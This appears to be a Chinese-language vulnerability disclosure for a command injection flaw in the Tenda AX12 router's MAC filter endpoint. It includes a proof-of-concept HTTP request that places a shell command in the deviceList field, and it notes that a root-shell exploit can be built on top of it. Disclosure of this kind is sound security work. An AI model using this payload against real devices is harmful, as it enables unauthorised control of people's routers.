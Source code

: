 # Tenda AX12存在命令注入漏洞

### 写在前面

Tenda官网：https://www.tenda.com.cn/default.html

关于Tenda：https://www.tenda.com.cn/profile/contact.html

固件下载：https://www.tenda.com.cn/download/

### 影响版本

![image-20220331093431847](img/image-20220331093431847.png)

图中显示了最新版本

### 漏洞细节

![image-20220331092543609](img/image-20220331092543609.png)

![image-20220331092601048](img/image-20220331092601048.png)

![image-20220331093247556](img/image-20220331093247556.png)

程序通过deviclist参数获取到的内容传递给v3，之后将v3带入doyststem函数，没有进行命令的过滤，存在命令注入漏洞。

### 漏洞复现与POC

为了重现该漏洞，可以遵循以下步骤：

​	1.使用fat模拟固件V22.03.01.21_cn

​	2.使用以下POC攻击进行攻击

```
POST /goform/setMacFilterCfg HTTP/1.1
Host: 192.168.11.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:96.0) Gecko/20100101 Firefox/96.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 51
Origin: http://192.168.11.1
Connection: close
Referer: http://192.168.11.1/iptv.html?random=0.7642888131213508&
Cookie: password=7c90ed4e4d4bf1e300aa08103057ccbcmho1qw

macFilterType=1&deviceList=1"echo 1234 > /tmp/4455 \"\
```

![image-20220331093607433](img/image-20220331093607433.png)

图为POC攻击效果图

最后，您可以编写exp，这可以实现获取根shell的非常稳定的效果

![image-20220330135459526](img/image-20220330135459526.png)
